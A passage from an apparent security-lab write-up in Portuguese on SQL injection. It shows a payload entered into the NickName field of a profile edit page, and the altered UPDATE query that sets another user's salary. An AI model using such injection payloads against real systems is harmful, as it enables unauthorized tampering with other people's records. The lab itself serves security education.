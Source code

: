 ![](./screenshots/salaryedit.png)

### Task 3.2: Modify other people' salary

Para esta tarefa, usou-se um raciocínio semelhante ao da tarefa anterior. Desta vez escreveu-se `', salary='1' WHERE Name='Boby';#` no campo `NickName` (e os outros campos ficaram vazios) na página de editar o perfil da Alice. Desta maneira, a _query_ SQL será alterada para a seguinte:

```sql
UPDATE credential SET
  nickname='', salary='1' WHERE Name='Boby';#',
  email='',
  address='',
  Password='',
  PhoneNumber=''
WHERE ID=$id;
```
